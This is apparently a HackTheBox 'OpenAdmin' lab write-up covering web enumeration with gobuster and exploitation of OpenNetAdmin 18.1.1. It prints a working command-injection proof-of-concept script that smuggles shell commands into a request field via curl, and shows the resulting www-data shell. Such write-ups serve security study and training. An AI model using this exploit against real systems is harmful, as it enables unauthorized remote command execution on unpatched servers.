



# 10 - HTTP


# Default Apache Page




A simple default apache page. There isn't much to do on here. Let's run a gobuster on it to reveal hidden pages.


# gobuster
```
┌─[user@parrot]─[10.10.14.14]─[~/htb/openadmin]
└──╼ $ cat gobuster/initial-x.log | grep -v 403
/index.html           (Status: 200) [Size: 10918]
/.                    (Status: 200) [Size: 10918]
/music                (Status: 301) [Size: 312] [--> http://10.10.10.171/music/]
/artwork              (Status: 301) [Size: 314] [--> http://10.10.10.171/artwork/]
```


# Music


`Login` menu redirects us to another place in the parent directory.

# Login page, OpenNetAdmin


The version for OpenNetAdmin is 18.1.1  and this version is recorded as vulnerable. There are a several PoC scripts on the internet. The one I'll be using is from exploitdb.


# [Exploit](https://www.exploit-db.com/exploits/47691)


# exploit.sh
```bash
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```


From the PoC, it looks like a command injection vulnerability.

# Shell 

```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/openadmin]
└──╼ $ bash exploit.sh http://10.10.10.171/ona/
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```